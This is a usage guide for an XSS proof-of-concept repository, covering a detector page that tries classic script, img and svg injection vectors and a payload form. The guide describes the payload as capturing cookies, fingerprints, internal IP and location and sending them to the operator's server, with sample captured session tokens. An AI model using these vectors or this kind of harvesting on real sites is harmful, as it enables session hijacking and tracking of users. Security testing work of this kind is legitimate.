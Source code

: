 Proof of Concept (PoC) Guide
Step 1: Setting Up the Environment

Clone the Repository:

    git clone <repository-url>
    cd xss-poc

Install Dependencies:

    npm install express body-parser

Configure the Host:

    Open server.js, xss_payload.html, and xss_detector.html in a text editor.
    Change the host variable to your own website or IP address.

Example:

    const host = 'your-website.com'; // Change this to your own website

Step 2: Running the Server

Start the Server:

    node server.js

You should see a message indicating that the server is running:

    Server running at http://your-website.com:3000

Step 3: Using the XSS Detector

    Open the XSS Detector:
        Open xss_detector.html in a web browser.

    Enter the URL to Test:
        In the input field, enter the URL of the website you want to test for XSS vulnerabilities.
        Click the "Test for XSS" button.

    Observe the Results:
        The script will test the URL with various XSS vectors and display the results on the page.
        If a potential XSS vulnerability is found, it will be indicated in the results.

Step 4: Using the XSS Payload

    Open the XSS Payload:
        Open xss_payload.html in a web browser.

    Interact with the Form:
        Fill out the login form with some sample data.
        Observe the browser's console and the server's terminal for captured data.

    Analyze the Captured Data:
        The payload will capture various types of data, including user agent, screen resolution, plugins, cookies, and more.
        This data will be sent to the server and logged in the terminal.

Example Outputs
Server Terminal Output

When you interact with the form in xss_payload.html, you should see output in the server terminal similar to this:

    Captured Headers: {
      'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
      'content-type': 'application/json',
      'accept': '*/*',
      'origin': 'http://your-website.com:3000',
      'referer': 'http://your-website.com:3000/xss_payload.html',
      'accept-encoding': 'gzip, deflate',
      'accept-language': 'en-US,en;q=0.9',
      'connection': 'close'
    }
    POST Body: {
      t: 'input',
      v: 'testuser',
      fp: {
    ua: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    lang: 'en-US',
    screen: '1920x1080',
    plugins: ['Chrome PDF Viewer', 'Shockwave Flash', ...],
    cookies: 'sessionid=abc123; csrftoken=xyz456'
      },
      ts: '2023-10-01T12:34:56.789Z',
      canvasFingerprint: 'data:image/png;base64,...',
      internalIP: '192.168.1.1',
      location: { latitude: 40.7128, longitude: -74.0060 }
    }

XSS Detector Results

When you test a URL with xss_detector.html, you should see results similar to this:

    Testing for XSS vulnerabilities...
    Potential XSS vulnerability found with vector: <script>alert("XSS")</script>
    No XSS vulnerability found with vector: <img src="x" onerror="alert('XSS')">
    Potential XSS vulnerability found with vector: <svg/onload=alert("XSS")>
    No XSS vulnerability found with vector: <body onload=alert("XSS")>
    ...

Conclusion

This PoC demonstrates how to set up and use the XSS detection and payload scripts. By following the steps outlined above, you can test for XSS vulnerabilities and analyze the captured data. Always ensure you have permission to test for vulnerabilities on a website.
